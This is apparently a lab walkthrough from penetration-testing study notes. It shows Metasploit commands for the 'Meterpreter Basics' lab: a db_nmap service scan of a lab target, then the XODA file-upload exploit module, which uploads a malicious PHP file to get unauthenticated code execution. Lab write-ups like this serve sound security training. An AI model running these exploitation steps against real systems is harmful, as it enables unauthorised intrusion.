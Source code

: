 # 🔬Meterpreter - MSF

## Lab 1

>  🔬 [Meterpreter Basics](https://www.attackdefense.com/challengedetails?cid=193)
>
>  - Target IP: `192.170.151.3`
>  - Usage of the **Meterpreter** payload
>  - [Meterpreter](https://www.offsec.com/metasploit-unleashed/about-meterpreter/)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.170.151.3
setg RHOST 192.170.151.3
workspace -a MeterpreterBasics
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.170.151.3
```

```bash
80/tcp   open http Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open mysql MySQL 5.5.47-0ubuntu0.14.04.1
```

```bash
curl http://192.170.151.3
```

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
info
# Description:
#   This module exploits a file upload vulnerability found in XODA 
#   0.4.5. Attackers can abuse the "upload" command in order to upload a 
#   malicious PHP file without any authentication, which results in 
#   arbitrary code execution. The module has been tested successfully on 
#   XODA 0.4.5 and Ubuntu 10.04.
set TARGETURI /
run
```

## Meterpreter Commands

- In the **`Meterpreter`** session
